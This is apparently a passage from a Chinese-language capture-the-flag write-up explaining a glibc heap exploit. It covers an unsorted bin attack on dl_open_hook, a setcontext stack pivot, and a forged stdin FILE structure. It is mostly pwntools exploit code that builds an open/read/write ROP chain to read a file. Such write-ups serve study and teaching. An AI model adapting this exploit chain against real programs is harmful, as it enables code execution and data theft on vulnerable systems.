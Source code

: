 观察调用(*dlopen_mode)()后的寄存器环境，发现RAX保留了main_arena的地址，因此考虑libc中是否存在mov rdi,rax;call [rax+xx]这样的gadget，利用call从而来调用setcontext，继而实现栈迁移。

![image-20210814181202915](https://gitee.com/nopnoping/img/raw/master/img/image-20210814181202915.png)

利用ROPgadget查找后，选择了call [rax+0x20]的gadget，在rax+0x20处布置setcontext，随后实现栈迁移。

![image-20210814181407279](https://gitee.com/nopnoping/img/raw/master/img/image-20210814181407279.png)

在IO_stdin结构的后面存在宽字符的缓冲区，可以利用该缓冲区来布置ROP链。

```python
# 3.unsortd bin attack dl_open_hook
# 	local
gadget=libc_base+0x00000000000676aa
heap=libc_base-0x301000
ret=libc_base+0x000000000001fc1c
rdi_ret=libc_base+0x000000000001fc6a
rsi_ret=libc_base+0x000000000001fc1b
rdx_ret=libc_base+0x0000000000001b92
_open=libc_base+libc.symbols["open"]
_read=libc_base+libc.symbols["read"]
_write=libc_base+libc.symbols["write"]

s(p16(((IO_stdin+0x400)&0xffff)))
sleep(5)
info_addr("gadget",gadget)
#3.1 stdin fifo
fake_stdin=p64(IO_stdin+0x341)+p64(0)*6+b"\xff"*8+p64(0xa000000)+p64(io_stdfile_0_lock)+b'\xff'*8+\
p64(0)*5+b'\xff'*4+b'\x00'*4+p64(0)*2+p64(io_file_jumps)
#3.2 fake chunk & ROP
fake_chunk=p64(0)+p64(0x41)+p64(0)+p64(dl_open_hook-0x10)+\
p64(0x20)+p64(0x20)+p64(0)*2+p64(0x40)+p64(0x621)
ORW=p64(rdi_ret)+p64(heap+0x10)+p64(rsi_ret)+p64(4)+\
p64(rdx_ret)+p64(0)+p64(_open)+\
p64(rdi_ret)+p64(3)+p64(rsi_ret)+p64(heap+0x30)+\
p64(rdx_ret)+p64(0x100)+p64(_read)+\
p64(rdi_ret)+p64(2)+p64(rsi_ret)+p64(heap+0x30)+\
p64(rdx_ret)+p64(0x20)+p64(_write)
fake_wide=(fake_chunk+ORW).ljust(0x140,b'\x00') #0x140 bytes
#3.3 hook
four_hook=p64(0)*2+p64(0)+p64(0)  #0x20 bytes
#3.4 main_arena data
main_arena=p64(0x100000000)+p64(0)*10+p64(gadget)+p64(IO_stdin+0xa0)*3+\
p64(setcontext+53)+p64(_main_arena+104)
for i in range(7):
main_arena+=p64(_main_arena+120+i*0x10)*2
main_arena+=p64(IO_stdin+0xf0)+p64(ret)
payload=fake_stdin+fake_wide+four_hook+main_arena
#3.5 unsorted bin attack & call dl_open_mode
s(payload)
```
